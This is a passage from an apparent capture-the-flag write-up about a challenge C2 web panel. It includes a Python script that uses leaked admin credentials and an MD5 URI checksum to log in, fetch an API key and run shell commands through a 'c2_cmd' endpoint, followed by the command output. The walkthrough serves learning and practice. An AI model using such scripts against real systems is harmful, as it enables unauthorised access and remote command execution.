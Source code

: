 Admin creds have been leaked. Now let's login as admin and try running c2_cmd. We'll have to also pass the admin's key into the c2_cmd api. Nothing is happening so there must be one more missing piece. At this point lets look around the area in the binary where the c2_cmd endpoint was found. It's possible that nearby strings will tell us the syntax. This time instead of grep we'll open the binary in a hex editor.

![Screenshot of HxD with c2_cmd searched](images/screen1.PNG)

Nearby we can see the strings `ls -la` and `cmd`, so let's try adding `'cmd':'ls -la'` to our request. 

```python
import requests
import json
import hashlib

host = "http://172.18.10.105:31305"
session = requests.Session()

def doPost(api,salt,data={}):
  data['uri_checksum'] = hashlib.md5((salt+api).encode('ascii')).hexdigest()
  return session.post(host+api, data=json.dumps(data))

salt_res=doPost("/api/salt","")
print(session.cookies.get_dict())
print(F"Salt Res: {salt_res.text}")
salt=json.loads(salt_res.text)["response"]["salt"]
print(F"Salt: {salt}")
print("Login:")
print(doPost("/api/authenticate",salt,{"username":"admin","password":"mysup3rs3cr3tP@ssw0rd!!!!"}).text)
key = json.loads(doPost("/api/profile/1",salt).text)["response"]["key"]
print(F"Key: {key}")
print(doPost("/api/c2_cmd",salt,{"key":key,"cmd":"ls -la"}).text)
```

```
python3.8 test.py
{'PHPSESSID': 'urp72qgm66nv8o8r6suc2d5jh0'}
Salt Res: {"response":{"salt":"=MZS&^Dae]6WY'MoC|M7>mQlG\\i84J-Ff>92d)\"uTimp.iedk&sMyBo"}}
Salt: =MZS&^Dae]6WY'MoC|M7>mQlG\i84J-Ff>92d)"uTimp.iedk&sMyBo
Login:
{"response":{"status":"ok"}}
Key: 415290769594460e2e485922904f345d
total 26916
drwxr-xr-x 2 nobody nogroup     4096 Sep  4 01:44 .
drwxr-xr-x 4 nobody nogroup     4096 Sep  4 01:45 ..
-rwxrwxr-x 1 nobody nogroup 15255811 Sep  4 01:42 h4x0rBot2.zip
-rwxrwxr-x 1 nobody nogroup 12289640 Sep  3 17:46 h4x0rb0t.zip
-rwxrwxr-x 1 nobody nogroup     3726 Sep  4 01:44 index.php
```
